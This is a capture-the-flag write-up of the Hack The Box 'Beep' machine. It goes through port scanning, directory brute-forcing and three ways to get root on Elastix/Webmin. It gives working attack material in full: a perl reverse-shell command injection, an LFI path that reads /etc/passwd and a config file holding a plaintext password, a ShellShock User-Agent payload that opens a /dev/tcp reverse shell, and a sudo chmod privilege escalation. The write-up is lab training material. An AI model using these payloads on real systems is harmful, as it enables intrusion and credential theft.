




# Beep Writeup w/o Metasploit



## Reconnaissance <a id="e462"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA initial 10.10.10.7
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _initial_

We get back the following result showing that 12 ports are open:

* **Port 22:** running OpenSSH 4.3
* **Port 25:** running Postfix smtpd
* **Port 80:** running Apache httpd 2.2.3
* **Port 110:** running Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7–7.el5\_6.4
* **Port 111:** running rpcbind
* **Port 143**: running Cyrus imapd 2.3.7-Invoca-RPM-2.3.7–7.el5\_6.4
* **Port 443:** running HTTPS
* **Port 993:** running Cyrus imapd
* **Port 995:** running Cyrus pop3d
* **Port 3306:** running MySQL
* **Port 4445:** running upnotifyp
* **Port 10000:** running MiniServ 1.570 \(Webmin httpd\)

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-26 23:32 EST
Nmap scan report for 10.10.10.7
Host is up (0.040s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
*22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
*25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
*110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS EXPIRE(NEVER) TOP UIDL IMPLEMENTATION(Cyrus POP3 server v2) PIPELINING USER RESP-CODES AUTH-RESP-CODE LOGIN-DELAY(0) APOP
*111/tcp   open  rpcbind    2 (RPC #100000)
*143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: RIGHTS=kxte ATOMIC CONDSTORE Completed IMAP4 IMAP4rev1 NAMESPACE MULTIAPPEND CHILDREN ACL OK CATENATE URLAUTHA0001 STARTTLS LISTEXT QUOTA THREAD=REFERENCES IDLE LIST-SUBSCRIBED ANNOTATEMORE X-NETSCAPE BINARY THREAD=ORDEREDSUBJECT LITERAL+ MAILBOX-REFERRALS SORT=MODSEQ RENAME SORT NO UNSELECT ID UIDPLUS
443/tcp   open  ssl/https?
|_ssl-date: 2019-12-27T05:36:57+00:00; +1h00m57s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
*995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/26%OT=22%CT=1%CU=41448%PV=Y%DS=2%DC=I%G=Y%TM=5E058A
OS:CB%P=x86_64-pc-linux-gnu)SEQ(SP=C1%GCD=1%ISR=C4%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(
OS:R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0
OS:%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z
OS:%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RI
OS:PL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.comHost script results:
|_clock-skew: 1h00m56sOS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 363.19 seconds
```

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -p- -oA full 10.10.10.7
```

We get back the following results.

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-26 23:45 EST
Nmap scan report for 10.10.10.7
Host is up (0.040s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) AUTH-RESP-CODE PIPELINING UIDL EXPIRE(NEVER) USER RESP-CODES STLS TOP APOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IDLE MULTIAPPEND CATENATE IMAP4 MAILBOX-REFERRALS Completed SORT=MODSEQ ATOMIC UIDPLUS CONDSTORE X-NETSCAPE RIGHTS=kxte THREAD=REFERENCES URLAUTHA0001 UNSELECT RENAME ANNOTATEMORE ACL NO NAMESPACE IMAP4rev1 QUOTA OK THREAD=ORDEREDSUBJECT SORT ID STARTTLS CHILDREN BINARY LIST-SUBSCRIBED LITERAL+ LISTEXT
443/tcp   open  ssl/https?
|_ssl-date: 2019-12-27T05:50:49+00:00; +1h00m57s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: UnixHost script results:
|_clock-skew: 1h00m56sService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 388.60 seconds
```

Four other ports are open.

* **Port 878:** running status
* **Port 4190:** running Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7–7.el5\_6.4
* **Port 4559:** running HylaFAX 4.3.10
* **Port 5038:** running Asterisk Call Manager 1.1

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -p- -oA udp 10.10.10.7
```

I managed to root the box and write this blog, while this UDP scan still did not terminate. So for this blog, I don’t have the UDP scan results.

Before we move on to enumeration, let’s make a few mental notes about the nmap scan results.

* The OpenSSH version that is running on port 22 is pretty old. We’re used to seeing OpenSSH version 7.2. So it would be a good idea to check searchsploit to see if any critical vulnerabilities are associated with this version.
* Ports 25, 110, 143, 995 are running mail protocols. We might need to find a valid email address to further enumerate these services. Port 4190 running Cyrus timsieved 2.3.7 seems to be associated to imapd.
* Port 111 is running RPCbind. I don’t know much about this service but we can start enumerating it using the rpcinfo command that makes a call to the RPC server and reports what it finds. I think port 878 running the status service is associated to this.
* Ports 80, 443 and 10000 are running web servers. Port 80 seems to redirect to port 443 so we only have two web servers to enumerate.
* Port 3306 is running MySQL database. There is a lot of enumeration potential for this service.
* Port 4559 is running HylaFAX 4.3.10. According to [this](https://vulners.com/suse/SUSE-SA:2003:045), HylaFAX is running an open source fax server which allows sharing of fax equipment among computers by offering its service to clients by a protocol similar to FTP. We’ll have to check the version number to see if it is associated with any critical exploits.
* Port 5038 is running running Asterisk Call Manager 1.1. Again, we’ll have to check the version number to see if it is associated with any critical exploits.
* I’m not sure what the upnotifyp service on port 4445 does.

## Enumeration <a id="f86e"></a>

As usual, I always start with enumerating HTTP first. In this case we have two web servers running on ports 443 and 10000.

**Port 443**

Visit the application.



It’s an off the shelf software running [Elastix](https://en.wikipedia.org/wiki/Elastix), which is a unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. The page does not have the version number of the software being used so right click on the site and click on View Page source. We don’t find anything there. Perhaps we can get the version number from one of its directories. Let’s run gobuster on the application.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.7/ -k
```

* **dir:** uses directory/file brute forcing mode
* **-w:** path to the wordlist
* **-u:** target URL or Domain
* **-k:** skip SSL certificate verification

We get back the following result.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.7/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/27 13:36:46 Starting gobuster
===============================================================
/images (Status: 301)
/help (Status: 301)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
/vtigercrm (Status: 301)
```

The directories leak the version of FreePBX \(2.8.1.4\) being used but not the Elastix version number. I also tried common and default credentials on all the login forms I found in the directories and didn’t get anywhere.

Since this is an off the shelf software, the next step would be to run searchsploit to determine if it is associated with any vulnerabilities.

```text
searchsploit elastix
```

We get back the following result.


Cross-site scripting exploits are not very useful since they are client side attacks and therefore require end user interaction. The remote code execution \(Solution \#1\) and local file inclusion \(Solution \#2\) vulnerabilities are definitely interesting. The Blind SQL Injection is on the iridium\_threed.php script that the server doesn’t seem to load. Plus it seems like it requires a customer to authenticate, so I’m going to avoid this exploit unless I get valid authentication credentials. The PHP Code Injection exploit is in the vtigercrm directory where the LFI vulnerability exists as well. So we’ll only look into that if the LFI vulnerability does not pan out.

**Port 10000**

Visit the application.


This also seems to be an off the shelf software and therefore the first thing I’m going to do is run searchsploit on it.

```text
searchsploit webmin
```

We get back a lot of vulnerabilities!



One thing to notice is that several of the vulnerabilities mention cgi scripts, which if you read my [Shocker writeup](https://medium.com/@ranakhalil101/hack-the-box-shocker-writeup-w-o-metasploit-feb9e5fa5aa2), you should know that the first thing you should try is the ShellShock vulnerability. This vulnerability affected web servers utilizing CGI \(Common Gateway Interface\), which is a system for generating dynamic web content. If it turns out to be not vulnerable to ShellShock, searchsploit returned a bunch of other exploits we can try.

Based on the results of the enumeration I have done so far, I believe I have enough information to attempt exploiting the machine. If not, we’ll go back and enumerate the other services.

## Solution \#1 <a id="f03a"></a>

This solution involves attacking port 443.

First, transfer the RCE exploit to the attack machine.

```text
searchsploit -m 18650
```

Looking at the code, we need to change the lhost, lport, and rhost.

```text
mport urllib
rhost="10.10.10.7"
lhost="10.10.14.12"
lport=1234
extension="1000"# Reverse shell payload
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'urllib.urlopen(url)
```

Before we run the script, let’s URL decode the **url** parameter to see what it’s doing.

```text
'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"'+str(lhost)+':'+str(lport)+'");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

It seems like a command injection that sends a reverse shell back to our attack machine. Let’s setup a netcat listener on the configured lhost & lport to receive the reverse shell.

```text
nc -nlvp 1234
```

Run the script.

```text
python 18650.py
```

I get an SSL unsupported protocol error. I tried fixing the error by changing the [python code](https://stackoverflow.com/questions/19268548/python-ignore-certificate-validation-urllib2), however, I couldn’t get it to work. Therefore, the next best solution is to have it go through Burp.

First, change the url parameter from “https” to “http” and the rhost to “localhost”. Next, in Burp go to **Proxy** &gt; **Options** &gt; **Proxy Listeners** &gt; **Add**. In the **Binding** tab, set the port to **80**. In the **Request handling** tab set the **Redirect to host** parameter to **10.10.10.7**, **Redirect to port** parameter to **443** and check the option **Force use of SSL**.

What that does is it redirects localhost to https://10.10.10.7 while passing all the requests and responses through Burp. This way the python script doesn’t have to handle HTTPS and therefore we avoid the SSL error we are getting.

Let’s try running it again.

```text
python 18650.py
```

It runs but we don’t get a shell back. The nice thing about doing this with Burp is that we can see the request & response. In Burp go to **Proxy** &gt; **HTTP history** and click on the request. In the **Request** tab, right click and send it to repeater. As can be seen, the error message we get is as follows.



This might have to do with the default extension value in the script. We don’t actually know if the value 1000 is a valid extension. To figure that out, we’ll have to use the [SIPVicious security tools](https://github.com/EnableSecurity/sipvicious). In particular, the svwar tool identifies working extension lines on a PBX. Let’s run that tool to enumerate valid extensions.

```text
python svwar.py -m INVITE -e100-500 10.10.10.7
```

* **-m:** specifies a request method
* **-e:** specifies an extension or extension range

We get back the following result.

```text
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
| Extension | Authentication |
------------------------------
| 233       | reqauth        |
```

233 is a valid extension number. Change the extension in the script and run it again.


We have a shell! Let’s first upgrade the shell to a partially interactive bash shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

‌To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Now that we have a fully interactive shell, let’s grab the user.txt flag.


Next, we need to escalate our privileges to root. Run the following command to view the list of allowed sudo commands the user can run.

```text
sudo -l
```

We get back the following result.

```text
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

Oh boy, so many security misconfigurations! For this solution, let’s exploit the chmod command.

Run the following command to give everyone rwx permissions on the /root directory.

```text
sudo chmod o+rwx /root
```

Now we can view the root.txt flag.


## Solution \#2 <a id="e66c"></a>

This solution involves attacking port 443.

First, transfer the LFI exploit to the attack machine.

```text
searchsploit -m 37637.pl
```

Looking at the exploit, it seems that the LFI vulnerability is in the **current\_language** parameter. Let’s see if our application is vulnerable to it.

```text
https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We get back the following page.


The application is definitely vulnerable. Right click on the page and select View Page Source to format the page.

The file seems to have a bunch of usernames and passwords of which one is particularly interesting.

```text
# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

Let’s try to use the above credentials to SSH into the admin account.

```text
ssh admin@10.10.10.7
```

It doesn’t work. To narrow down the number of things we should try, let’s use the LFI vulnerability to get the list of users on the machine.

```text
https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

After filtering through the results, these are the ones I can use.

```text
root:x:0:0:root:/root:/bin/bash                                                                                                                                                
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash                                                                                                                            
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash                                                                                                                        
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash                                                                                                               
spamfilter:x:500:500::/home/spamfilter:/bin/bash                                                                                                                               
fanis:x:501:501::/home/fanis:/bin/bash
```

Let’s try SSH-ing into the root account with the credentials we found above.

```text
ssh root@10.10.10.7
```

It worked!


For this solution, we don’t have to escalate privileges since we’re already root.

## Solution \#3 <a id="d238"></a>

This solution involves attacking port 10000.

First, visit the webmin application.


Then intercept the request in Burp and send it to Repeater. Change the User Agent field to the following string.

```text
() { :;}; bash -i >& /dev/tcp/10.10.14.12/4444 0>&1
```

What that does is it exploits the ShellShock vulnerability and sends a reverse shell back to our attack machine. If you’re not familiar with ShellShock, the following [image](http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell) explains it really well.


Set up a listener to receive the reverse shell.

```text
nc -nlvp 4444
```

Send the request and we get a shell!


For this solution we also don’t need to escalate privileges since we’re already root!

## Conclusion <a id="b323"></a>

I presented three ways of rooting the machine. I know of at least two other way \(not presented in this writeup\) to root the machine including a neat solution by [ippsec](https://www.youtube.com/watch?v=XJmBpOd__N8) that involves sending a malicious email to a user of the machine and then executing that email using the LFI vulnerability we exploited in solution \#2. I’m sure there are also many other ways that I didn’t think of.

